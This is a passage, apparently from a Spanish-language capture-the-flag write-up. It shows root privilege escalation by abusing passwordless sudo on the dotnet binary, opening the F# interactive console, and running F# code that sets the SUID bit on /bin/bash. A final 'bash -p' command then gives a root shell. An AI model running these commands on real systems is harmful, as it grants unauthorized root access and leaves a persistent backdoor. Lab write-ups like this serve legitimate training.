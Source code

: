 - Es decir, podemos ejecutar como root el binario `"dotnet"` sin contraseña, esto podríamos aprovecharlo de diversas formas, en este caso, abribremos la consola interactiva de `.NET` (fsi) como root:

```bash
$sudo /usr/bin/dotnet fsi
```

- Y dentro de la consola interactiva podemos escribir el código en lenguaje F# que ejecute el comando `"chmod u+s /bin/bash"` dentro del sistema; al ser root, debería ejecutarse sin problemas y podríamos ejecutar la bash con privilegios:

```javascript
open System.Diagnostics
let psi = new ProcessStartInfo("chmod", "u+s /bin/bash")
psi.UseShellExecute <- false
let process = Process.Start(psi)
process.WaitForExit() |> ignore
;;
```

- Presionamos ENTER al final, y si ejecutamos `"ls -la /bin/bash"` podremos comprobar que las bash tiene permisos SUID.

- Ejecutamos la bash con privilegios y seremos `root` pudiendo leer las dos flags.

```bash
$bash -p
```

